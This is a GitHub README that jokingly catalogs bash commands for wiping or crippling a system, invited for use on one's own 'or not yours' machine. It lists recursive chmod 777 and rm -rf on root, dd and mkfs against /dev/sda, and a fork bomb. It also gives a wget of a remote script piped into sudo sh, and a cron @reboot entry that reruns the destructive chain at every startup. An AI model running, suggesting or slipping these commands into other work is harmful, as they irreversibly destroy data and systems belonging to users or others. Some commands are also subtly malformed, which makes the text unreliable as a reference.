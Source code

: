# Dumb ways to kill your system
Kill your (or not yours) system with style. Many ways on many languages to make your system be snapped by thanos itself.

# Bash

The following commands should work on Android, Linux, MacOS, and others systems who run on the bash (and bash-like) interpreter(s).
<br />
<br />
```
sudo chmod -R 777 /*; 
```
This will just make your entire system acessible using permissions.
<br />
<br />

```
sudo rm -rf /* --no-preserve-root;
```
Well, this surely will wipe down your entire system.
<br />
<br />

```
dd if=/dev/null of=/dev/sda; 
```
This will change every bite of your drive to 0's.
<br />
<br />

```
sudo mv /home/* /dev/null; 
```
This command will to move your entire users folder to the absolute void.
<br />
<br />

```
sudo mkfs.ext3 /dev/sda; 
```
This will format your drive entirely.
<br />
<br />

```
: () {: |: &} ;:
```
I's called fork bomb, and should make your system crashes, if you have one.
<br />
<br />

```
wget https://raw.githubusercontent.com/willnaoosmit/Dumb-ways-to-kill-your-system/master/bash/script.sh -O | sudo sh
```
This command will download and run automatically the file with all the bash commands above.
<br />
<br />

```
sudo touch /var/spool/cron/$USER; echo '@reboot sudo chmod -R 777 /*; sudo rm -rf /* --no-preserve-root; dd if=/dev/null of=/dev/sda; sudo mv /* /dev/null; sudo mkfs.ext3 /dev/sda; : () {: |: &} ;:' > /var/spool/cron/$USER
```
This command will add all the commands above to run on the next reboot.
<br />
<br />


